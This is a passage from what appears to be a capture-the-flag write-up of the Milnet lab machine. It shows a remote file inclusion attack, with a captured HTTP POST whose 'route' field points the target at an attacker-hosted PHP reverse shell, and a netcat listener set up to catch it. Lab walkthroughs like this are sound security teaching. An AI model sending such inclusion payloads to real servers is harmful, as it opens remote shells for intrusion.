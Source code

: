 Sure enough, the contents of my PHP page were executed and displayed:


![](/images/2016-06-02/milnetindex.png)

Time to get a shell! I'm using a PHP reverse shell from [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), which you can also find in a default Kali install. I saved it as shell.php, setup a netcat listener on port 1234, and replayed the captured HTTP request on Burp Suite, making sure to set route to http://172.16.146.129/shell

```
POST /content.php HTTP/1.1
Host: 172.16.146.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.146.131/nav.php
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

route=http://172.16.146.129/shell
```
